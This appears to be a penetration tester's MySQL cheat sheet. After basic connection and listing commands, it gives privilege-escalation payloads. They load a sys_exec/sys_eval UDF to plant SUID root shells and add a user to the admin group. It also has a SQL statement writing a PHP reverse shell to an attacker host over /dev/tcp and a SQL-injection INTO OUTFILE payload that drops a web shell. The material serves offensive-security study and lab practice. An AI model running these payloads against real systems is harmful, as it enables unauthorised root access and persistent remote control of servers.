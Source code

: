 Connect to MYSQL server:
---
#mysql #connect

```bash
mysql -h $TARGET_IP -u $USER -p
```
Show list of databases:
```mysql
show databases;
```
Show list of tables in current DB:
```mysql
show tables;
```
Priv esc if running as root:
#mysql #privesc #priv-esc

```mysql
use mysql;
show tables;
select * from func;
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

OR

```sql
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
select sys_exec('usermod -a -G admin USER');
```

```bash
cd /var/tmp
./bash -p
```

```sql
select "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER/4444 0>&1'\");?>" into outfile "/var/www/.../shell.php";
```
---
write PHP into web tmp directory:
#mysql-shell

```sql
' UNION SELECT "<?php exec($_GET['cmd']);?>", null, null, INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```